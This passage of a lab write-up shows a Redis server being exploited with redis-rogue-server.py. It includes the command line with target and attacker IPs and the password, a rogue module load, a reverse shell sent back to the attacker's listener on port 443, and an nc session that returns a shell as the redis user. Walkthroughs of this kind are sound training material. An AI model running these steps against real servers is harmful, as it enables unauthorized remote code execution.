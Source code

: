 Execute the Python script, specifying the victim machine's IP address, our attacker IP address, and the Redis password.

```
❯ python3 redis-rogue-server.py --rhost=192.168.166.166 --lhost=192.168.45.181 --passwd='Ready4Redis?'
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.166.166:6379
[info] SERVER 192.168.45.181:21000
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
```
{: .nolineno }

When the connection is established, the script will ask us if we want an interactive shell or a reverse shell. I will choose a reverse shell typing **r**



```bash
[info] Open reverse shell...
Reverse server address: 192.168.45.181
Reverse server port: 443
[info] Reverse shell payload sent.
[info] Check at 192.168.45.181:443
[info] Unload module...
```
{: .nolineno }

With the selected option, we enter our attacker IP address and a port on which we have previously set up a listener. In my case, I use **nc** listening on port 443.

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.181] from (UNKNOWN) [192.168.166.166] 43798
whoami
redis

```
{: .nolineno }

As a result, we obtain a shell as the **redis** user.
